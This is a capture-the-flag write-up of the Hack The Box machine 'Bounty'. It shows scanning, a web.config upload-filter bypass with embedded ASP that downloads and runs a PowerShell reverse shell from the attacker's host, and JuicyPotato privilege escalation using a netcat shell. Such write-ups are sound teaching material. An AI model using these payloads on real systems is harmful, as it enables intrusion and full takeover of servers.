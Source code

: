 ```yaml
---
permalink: /posts/HTB/Bounty
title:  "HTB Bounty"
author: Luc Kolen
description: "Bounty is an easy Windows machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB-Easy
  - Windows
  - Filter bypass
  - JuicyPotato
---
```

# 10.10.10.93 - Bounty

- [10.10.10.93 - Bounty](#10101093---bounty)
  - [Open ports](#open-ports)
  - [HTTP](#http)
    - [Gobuster](#gobuster)
    - [File upload](#file-upload)
      - [Bypass](#bypass)
  - [Privilege escalation](#privilege-escalation)
  - [TL;DR](#tldr)

## Open ports

```bash
luc@kali:~/Documents/Cyber-security/HTB/Bounty$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.93
```

|Port|Service|Version
|---|---|---|
tcp/80|http|Microsoft IIS httpd 7.5

## HTTP

### Gobuster

The page only shows an image and there is no `robots.txt` we we'll run Gobuster and hope to find some pages.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Bounty$ gobuster dir -u http://10.10.10.93:80/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -z -k -l -x "txt,html,php,asp,aspx,jsp"
/aspnet_client (Status: 301) [Size: 159]
/transfer.aspx (Status: 200) [Size: 941]
/uploadedfiles (Status: 301) [Size: 159]
```

### File upload

We can upload files on `/transfer.aspx` and those files will probably end up in the `/uploadedfiles` directory.

First we'll generate a shell to upload with MSFvenom.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Bounty$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=443 -f aspx > shell.aspx
```

![Shell upload](/assets/images/HTB-Bounty/1.a%20Shell%20upload.png)

Trying to upload our shell.aspx results in the message `Invalid File. Please try again`.

#### Bypass

.aspx files aren't allowed, but .config files are allowed. We can abuse this by creating a web.config file that connects back to our machine.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
CreateObject("WScript.Shell").Exec("cmd /c powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.16:8000/Invoke-PowerShellTcp.ps1')")
%>
```

```bash
luc@kali:~/Documents/Cyber-security/HTB/Bounty$ cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
luc@kali:~/Documents/Cyber-security/HTB/Bounty$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443' >> Invoke-PowerShellTcp.ps1
luc@kali:~/Documents/Cyber-security/HTB/Bounty$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.93 - - [12/Jun/2020 16:16:42] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

```bash
luc@kali:~/Documents/Cyber-security/HTB/Bounty$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.93.
Ncat: Connection from 10.10.10.93:49158.
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
bounty\merlin
PS C:\windows\system32\inetsrv> cd \Users\merlin\desktop
PS C:\Users\merlin\desktop> type user.txt
e29ad898************************
```

## Privilege escalation

```bash
PS C:\Users\merlin\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\Users\merlin\desktop> systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
System Type:               x64-based PC
```

This machine is vulnerable to JuicyPotato.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Bounty$ cp /opt/JuicyPotatoBinaries/JuicyPotato.exe .
luc@kali:~/Documents/Cyber-security/HTB/Bounty$ cp /home/luc/Downloads/netcat-win32-1.12/nc64.exe .
luc@kali:~/Documents/Cyber-security/HTB/Bounty$ sudo python2 /opt/impacket/examples/smbserver.py share `pwd` -smb2support
```

```bash
PS C:\Users\Merlin\Desktop> net use Z: \\10.10.14.16\share
PS C:\Users\Merlin\Desktop> Z:
PS Z:\> .\JuicyPotato.exe -t * -l 9000 -p nc64.exe -a "-e cmd 10.10.14.16 444"
```

```bash
luc@kali:~/Documents/Cyber-security/HTB/Bounty$ sudo nc -lnvp 444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::444
Ncat: Listening on 0.0.0.0:444
Ncat: Connection from 10.10.10.93.
Ncat: Connection from 10.10.10.93:49541.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\>whoami
nt authority\system
C:\>cd Users\Administrator\Desktop
C:\Users\Administrator\Desktop>type root.txt
c837f7b6************************
```

## TL;DR

- Bypass upload filter by sending .config file containing VB code
- JuicyPotato
